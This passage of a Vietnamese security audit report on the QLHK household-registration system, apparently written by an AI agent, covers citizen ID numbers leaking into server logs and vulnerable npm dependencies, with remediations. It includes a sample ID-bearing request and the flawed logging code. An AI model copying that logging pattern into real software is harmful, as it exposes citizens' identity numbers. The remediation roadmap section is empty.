- **CWE**: CWE-532: Insertion of Sensitive Information into Log File.
- **Bằng chứng mã nguồn**:
```typescript
// QLHK-Backend/src/middlewares/logger.middleware.ts (Dòng 60-61, 70-75)
const method = req.method;
const url = req.originalUrl || req.url; // <-- CHỨA NGUYÊN QUERY PARAMETERS

recordRequestLog({
    method,
    url, // <-- ĐƯỢC LƯU VÀO MẢNG recentLogs VÀ HIỂN THỊ LÊN TERMINAL DASHBOARD
    status,
    duration,
    ip: clientIp,
});
```
- **Phân tích cơ chế & Kịch bản khai thác**:
  - Khi người dùng tìm kiếm theo CCCD: `GET /api/citizens?cccd=064098001234` hoặc `GET /api/citizens?search=064098001234`.
  - Toàn bộ chuỗi URL chứa số CCCD 12 số thực tế được chuyển vào `recentLogs` và vẽ trực tiếp lên bảng Executive Terminal Dashboard trên màn hình máy chủ, cũng như xuất ra `stdout` nếu không ở chế độ TTY.
  - Bất kỳ ai nhìn vào màn hình terminal của máy chủ hoặc đọc file log hệ thống (nếu chuyển hướng output ra file) đều thấy các số CCCD này.
- **Khuyến nghị khắc phục**:
  - Khử độc (sanitize/mask) URL trước khi đưa vào hàm ghi log:
    ```typescript
    const sanitizedUrl = url.replace(/([?&](cccd|search)=)([^&]+)/gi, "$1••••••••");
    ```

---

### 2.6 An Ninh Chuỗi Cung Ứng & Dependencies (OWASP A06: Vulnerable Components)

Kiểm tra tự động thông qua `npm audit` trên `QLHK-Backend` ghi nhận **12 lỗ hổng an ninh** (6 Moderate, 5 High, 1 Critical):

#### [SEC-14] [HIGH] Gói thư viện `xlsx` (SheetJS 0.18.5) dính lỗ hổng Prototype Pollution & ReDoS
- **Vị trí**: `QLHK-Backend/package.json` (dòng 26) & `QLHK-Client/package.json` (dòng 23).
- **Mã tư vấn**: GHSA-4r6h-8v6p-xvw6, GHSA-5pgg-2g8v-p4x9.
- **Phân tích**:
  - Phiên bản `xlsx: ^0.18.5` là phiên bản cuối cùng được xuất bản lên npm registry công cộng trước khi tác giả chuyển sang CDN riêng.
  - Phiên bản này dính lỗ hổng Prototype Pollution trong bộ phân tích cú pháp tệp bảng tính và lỗi ReDoS (Regular Expression Denial of Service) khi xử lý các chuỗi công thức hoặc tên sheet độc hại.
- **Khuyến nghị khắc phục**:
  - Chuyển đổi sang thư viện hiện đại được bảo trì tốt và an toàn hơn như `exceljs` hoặc cấu hình cài đặt SheetJS trực tiếp từ CDN chính thức của nhà phát triển (`https://cdn.sheetjs.com/`).

#### [SEC-15] [LOW / DEV] Lỗ hổng trong các công cụ phát triển (DevDependencies)
- **Các gói bị ảnh hưởng**:
  - `@vitest/mocker <=4.1.10`: GHSA-82fw-gwwq-j7x9 (Path Traversal / Arbitrary File Read trong môi trường test).
  - `esbuild <=0.24.2`: GHSA-67mh-4wv8-2f99 (Dev server CSRF cho phép website bất kỳ đọc phản hồi từ Vite dev server).
  - `qs 2.2.5 - 6.15.3`: GHSA-x5fp-wj9c-mxmx, GHSA-4mjr-xmp4-gh2g (Denial of Service qua mảng không giới hạn).
- **Đánh giá rủi ro**: Lỗ hổng chủ yếu ảnh hưởng đến môi trường phát triển cục bộ và runner kiểm thử, không ảnh hưởng trực tiếp tới máy chủ production nếu chạy bằng mã đã biên dịch (`node dist/index.js`).
- **Khuyến nghị**: Nâng cấp `vitest`, `vite`, `prisma` lên phiên bản mới nhất theo thông báo của `npm audit`.

---

## 3. LỘ TRÌNH KHẮC PHỤC KHUYẾN NGHỊ (REMEDIATION ROADMAP)



---

*Báo cáo được hoàn thành bởi AGENT 2 (Security & Electron Security Engineer) — Master Engineering System QLHK.*
